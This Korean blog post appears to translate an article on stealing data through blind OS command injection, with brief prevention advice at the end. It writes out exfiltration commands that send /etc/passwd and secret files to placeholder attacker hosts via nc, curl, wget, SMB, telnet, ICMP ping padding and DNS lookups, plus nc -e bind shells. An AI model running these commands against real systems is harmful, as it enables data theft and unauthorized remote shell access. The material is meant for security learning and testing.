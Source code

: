 ```yaml
---
layout: post
title:  "Blind OS Command Injection"
tag:   Survey
categories: IoT system persu
---
```



### 본 문서는 아래 URL을 알기 쉽게 번역한 내용이므로, 상세 내용은 아래 URL을 참조하세요.

번역 : https://www.contextis.com/resources/blog/data-exfiltration-blind-os-command-injection/

### 제목 : Blind OS Command Injection을 통한 데이터 추출

### blind OS Command Injection
사용자의 입력이 시스템 명령에 사용될 수 있는 공격인 OS Command Injection의 한 종류로 시스템 명령의 수행 결과 값을 알 수 없을 때 사용하는 방법이다.

기본적인 OS Command Injection을 이해 하기 위해서는 아래 URL 참조.
- https://www.owasp.org/index.php/Command_Injection

<img src="{{ site.url }}/images/2017-03-12/one.png" style="display: block; margin: auto;">

위 그림에서 type이후 시스템 명령 삽입이 가능하다. 하지만 성공 여부는 HTTP Response 메세지 내 노출되지 않게 된다.
이럴 경우 다른 방식으로 공격자에게 응답을 오도록 한다.

그 예로 ping을 이용한 방법이다.
- ping -c 5 xxx.xxx.xxx.xxx : 대상 IP에 icmp 메세지를 5번 요청하는 명령어

<img src="{{ site.url }}/images/2017-03-12/two.png" style="display: block; margin: auto;">

위 그림은 다중 명령어를 사용할 수 있는 방법이다.
상세 내용은 아래 URL을 참고하면 좋다... 개인적으로 이해하기 쉬운 글이었다.

- https://bpsecblog.wordpress.com/2016/10/05/command_injection_02/

지금부터는 다양한 명령어를 통해 Blind OS Command Injection에 대해 알아 보겠다.

1. NetCat (NC)
NC는 TCP, UDP을 통해 네트워크 연결을 가능하게 하며, 데이터를 읽고 쓰기가 가능한 명령어다.

- 사용법 : https://en.wikipedia.org/wiki/Netcat
-  nc –l –p {port} < {file/to/extract}

<img src="{{ site.url }}/images/2017-03-12/thr.png" style="display: block; margin: auto;">

 위 그림 처럼 nc를 이용하여 포트를 열게 되면, netstat -an 명령 시 5555번 포트가 열려 있는 것을 알 수 있다.

```
persu$ nc -l -p 5555 < /etc/passwd&
persu$ netstat -an |grep 5555
tcp4       0      0  *.5555                 *.*                    LISTEN
```
5555번 포트 접근 시 실제 /etc/passwd 내용을 확인 할 수 있다.

```
persu$ nc 127.0.0.1 5555
##
# User Database
##
nobody:*:-2:-2:Unprivileged User:/var/empty:/usr/bin/false
root:*:0:0:System Administrator:/var/root:/bin/sh
```

이렇듯 NC를 통해 특정한 파일을 읽을 수 있으며, 리버스 쉘을 통해 쉘에 접근 할 수 있다.

2. cURL
cURL은 다양한 프로토콜을 사용하여 데이터를 전송하는 라이브러리 및 명령 줄 도구이며 데이터 추출을위한 매우 유용한 도구다. 취약한 서버에 cURL이 있으면 악의적인 웹 서버에 파일을 POST하거나 FTP / SCP / TFTP / TELNET 등의 프로토콜을 사용하여 파일을 전송할 수 있다.

- 사용법 : https://en.wikipedia.org/wiki/CURL
- cat /path/to/file | curl –F “:data=@-“ http://xxx.xxx.xxx.xxxx:xxxx/test.txt

<img src="{{ site.url }}/images/2017-03-12/four.png" style="display: block; margin: auto;">

위 그림에서 사용한 명령어는 cat을 통해 /etc/passwd를 http://xxxxx/text.txt 의 데이터로 사용하게 된다.

또 다른 방법으로는 FTP 프로토콜을 사용하는 방법이다.
- curl –T {path to file} ftp://xxx.xxx.xxx.xxx –user {username}:{password}

<img src="{{ site.url }}/images/2017-03-12/five.png" style="display: block; margin: auto;">
위 명령은 -T 옵션을 이용하여, 공격자의 ftp 서버에 접근하여 file을 전송하는 명령이다.

솔직히 cURL은 평소에 잘 사용하지 않는 명령어라 옵션에 대한 정리 및 이해가 필요하다...

3. WGET
Wget은 웹에서 파일을 비 대화식으로 다운로드 할 때 일반적으로 사용되는 도구. 특히 사용자 정의 헤더 및 POST 요청을 할 수 있다.
- 사용법 : https://en.wikipedia.org/wiki/Wget
- wget –header=”EVIL:$(cat /data/secret/password.txt)”http://xxx.xxx.xxx:xxx
- –header=’name:value’ : HTTP Request 메세지 전송 시 특정 헤더에 value 추가하는 옵션

<img src="{{ site.url }}/images/2017-03-12/six.png" style="display: block; margin: auto;">

위 그림처럼 명령어 전송 시 서버측 로그를 보게 되면, header에 시스템 파일이 노출되는 것을 알 수 있다.

추가적으로 사용할 수 있는 명령어는 아래와 같다.
- wget –header=”evil:`cat /etc/passwd | xargs echo –n`” http://xxx.xxx.xxx:xxxx

<img src="{{ site.url }}/images/2017-03-12/seven.png" style="display: block; margin: auto;">

- wget –post-data exfil=`cat /data/secret/secretcode.txt` http://xxx.xxx.xxx.xxx:xxxx

<img src="{{ site.url }}/images/2017-03-12/eight.png" style="display: block; margin: auto;">

- wget –post-file trophy.php http://xxx.xxx.xxx.xxx:xxxx
특정 파일을 post body 영역에 전송하는 명령어

<img src="{{ site.url }}/images/2017-03-12/nine.png" style="display: block; margin: auto;">

4. SMB
Windows 운영체제를 사용하는 PC에서 Linux 또는 UNIX 서버에 접속하여 파일이나 프린터를 공유하여 사용할 수 있도록 해 주는 소프트웨어이다.
- 사용법 : https://ko.wikipedia.org/wiki/%EC%82%BC%EB%B0%94_
- net use h: \\xxx.xxx.xxx.xxx\web /user:{username} {password} && copy {File to Copy} h:\{filename}.txt

<img src="{{ site.url }}/images/2017-03-12/ten.png" style="display: block; margin: auto;">

잘 사용하지 않지만, 특정 명령어를 사용할 수 없고 SMB 프로토콜이 활성화 되어 있는 경우 유용하게 쓰일 수 있다.

5. TELNET
TELNET 프로토콜은 원격에서 쉘에 접근할 수 있는 서비스를 제공한다. 23번 Default Port를 사용하고 있으며, 평문 전송을 통해 데이터를 전달 하게 된다. (대부분 한번 쯤 써본 서비스...)
- 사용법 : https://en.wikipedia.org/wiki/Telnet
- telnet xxx.xxx.xxx.xxx {port} < {file to transfer}

<img src="{{ site.url }}/images/2017-03-12/eleven.png" style="display: block; margin: auto;">

공격자가 NC 를 이용해 특정 포트를 오픈하고 있을 시 위 명령어를 통해 Telnet 서비스에 연결하게 되지만 실제로는 지정한 파일이 입력되어 공격자 PC에는 지정한 파일의 정보가 노출되는 것을 알 수 있다.

6. ICMP
ICMP 프로토콜은 목적지 IP에 대해 상태를 점검 하거나, management하기 위해 사용되는 서비스다. 보통 우리가 자주 쓰는 ping 명령어 또한 ICMP 메세지를 통해 전송되는 것이며, 위 내용과는 조금 다른 방식으로 사용된다.
- cat password.txt | xxd -p -c 16 | while read exfil; do ping -p $exfil -c 1 xxx.xxx.xxx.xxx; done

<img src="{{ site.url }}/images/2017-03-12/13.png" style="display: block; margin: auto;">

<img src="{{ site.url }}/images/2017-03-12/14.png" style="display: block; margin: auto;">

이 방식은 ICMP 프로토콜의 특징을 이용한 방법인데, 보통 IP 패킷을 보내기 위해서는 최소 바이트를 작성을 하여 전송해야 한다. ICMP 는 프로토콜 헤더에서 대부분의 서비스를 정의하고 실제로 보내지게 되는 Data에는 OS에서 지정한 잡다한 데이터가 입력되는데 이 부분에 공격자가 지정한 파일의 값을 입력하게 된다. (아주 쌈박함)

그 옵션이 바로 -p 옵션이며, 최대 16 개의 "패드"바이트를 지정할 수 있다. 여기서 공격자가 추출하고자하는 데이터를 저장하는 것이다.

7. DNS
DNS 프로토콜은 Domain name에 해당하는 IP 주소를 DNS 서버에 요청하여, 목적지 URL의 IP를 알아 오는 역할이다.
- cat /data/secret/password.txt | while read exfil; do host $exfil.contextis.com 192.168.107.135; done

<img src="{{ site.url }}/images/2017-03-12/15.png" style="display: block; margin: auto;">

DNS 프로토콜은 해당 URL의 IP를 서버에 요청시 쿼리를 날리게 되는데 위 그림에서 사용한 방식은 요청할 URL에 파일의 값으로 사용한다는 내용이다. 충분히 가능한 얘기이며, 이 또한 프로토콜의 특성을 이용하는 방법이다.


8. 추가 내용
- nc -l -p 9090 -e cmd.exe (Windows)
- nc -l -p 9090 -e /bin/bash (*nix)

위 방식을 사용하게 되면, 해당 포트에 접근하여도 -e 옵션을 이용해 바로 쉘을 사용할 수 있게 된다.

```
Victim :  persu$ nc -l -p 9090 -e /bin/bash
Attacke : persu$ nc 127.0.0.1 9090
id
uid=501(persu)
```

### Blind OS Command Injection Prevention
OS Command Injection 공격은 IoT 디바이스에서 많이 발견되는 취약점이다. 이를 방어 하기 위한 방법은 아래와 같다.

- 시스템 명령어 사용 시 상수 값을 통한 입력값 제한
- 사용자 입력 값에 대한 화이트 리스트 기반의 특수문자 필터링 적용
- 외부로 패킷 전달이 가능한 시스템 명령어 제한(KISA 권고 사항)
- 낮은 권한의 웹 서비스 데몬 실행
- 웹 서비스에 대한 정기적인 로그 검토

어찌 됐건.... 공격자에 입장에 있는 나는 유용한 자료였으며, 이 자료를 참고하여 버그 바운티를 하겠댱 빠염!
